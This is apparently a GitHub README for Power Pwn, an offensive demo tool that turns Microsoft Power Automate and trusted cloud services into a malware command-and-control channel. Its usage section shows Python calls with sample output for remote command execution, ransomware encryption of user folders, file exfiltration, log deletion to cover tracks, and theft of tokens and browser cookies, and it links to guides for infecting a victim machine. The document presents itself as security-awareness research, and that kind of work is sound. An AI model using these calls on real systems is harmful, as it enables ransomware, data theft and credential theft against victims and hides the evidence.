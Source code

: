 # Power Pwn

[![stars](https://img.shields.io/github/stars/mbrg?icon=github&style=social)](https://github.com/mbrg)
[![twitter](https://img.shields.io/twitter/follow/mbrg0?icon=twitter&style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=mbrg0)
[![email me](https://img.shields.io/badge/michael.bargury-owasp.org-red?logo=Gmail)](mailto:michael.bargury@owasp.org)

Power Pwn is a demo showing how to repurpose Microsoft-trusted executables, service accounts and cloud services to power a malware operation.

<a href="https://powerautomate.microsoft.com/en-us/robotic-process-automation/"><img src="https://docs.microsoft.com/en-us/power-pages/media/overview/power-platform.png" alt="Power Pwn" width="500" height="250" /></a>

Disclaimer: these materials are presented from an attacker’s perspective with the goal of raising awareness to the risks of underestimating the security impact of No Code/Low Code. No Code/Low Code is awesome.

## Usage

```python
from powerpwn.c2 import PowerPwn

POST_URL = ""
pp = PowerPwn(post_url=POST_URL)

### code execution

# python2
pp.exec_py2("print('hello world')").CodeExec
# CodeExecOutputs(ScriptOutput='\ufeffhello world\r\n', ScriptError='')

# python2 bad syntax
pp.exec_py2("bad syntax").CodeExec
# CodeExecOutputs(ScriptOutput='', ScriptError='  File "", line 1\r\n    bad syntax\r\n        ^\r\nSyntaxError: unexpected token \'syntax\'')

# powershell
pp.exec_ps("Write-Host \"hello word\"").CodeExec

# commandline
pp.exec_cmd("echo \"hello word\"").CodeExec
# CodeExecOutputs(ScriptOutput='Microsoft Windows [Version 10.0.22000.795]\r\n(c) Microsoft Corporation. All rights reserved.\r\n\r\nC:\\Program Files (x86)\\Power Automate Desktop>echo "hello word"\r\n"hello word"\r\n\r\n', ScriptError='')

### ransomware

pp.ransomware(crawl_depth=2, dirs_to_init_crawl=["C:\\Users\\alexg\\Documents\\mystuff", "D:\\shh"], encryption_key="8d1d4245").Ransomware
# Ransomware=RansomwareOutputs(FilesFound=9, FilesAccessed=9, FilesProcessed=9, Errors='')

### exfiltration

pp.exfil(target="C:\\Users\\alexg\\Downloads\\takeit.txt").Exfil
# ExfiltrationOutputs(Success=True, FileContents='asd')
pp.exfil(target="C:\\Users\\alexg\\Downloads\\dontexist.txt").Exfil
# ExfiltrationOutputs(Success=False, FileContents='')

### cleanup

pp.cleanup().Cleanup
# CleanupOutputs(FilesFound=179, LogFilesDeleted=178)

### steal_power_automate_token

pp.steal_power_automate_token().StealPowerAutomateToken
# StealPowerAutomateTokenOutputs(Token='ey...')

### steal_cookie
pp.steal_cookie("https://www.google.com").StealCookie
# StealCookieOutputs(Cookie='1P_JAR=2022-07-16-13; OGPC=19027681-1:')
```

## How To

[How to set up your Power Pwn cloud environment](docs/cloud_setup.md)

[How to infect a victim machine](docs/infect_machine.md)

[How to troubleshoot execution errors](docs/infect_machine.md)
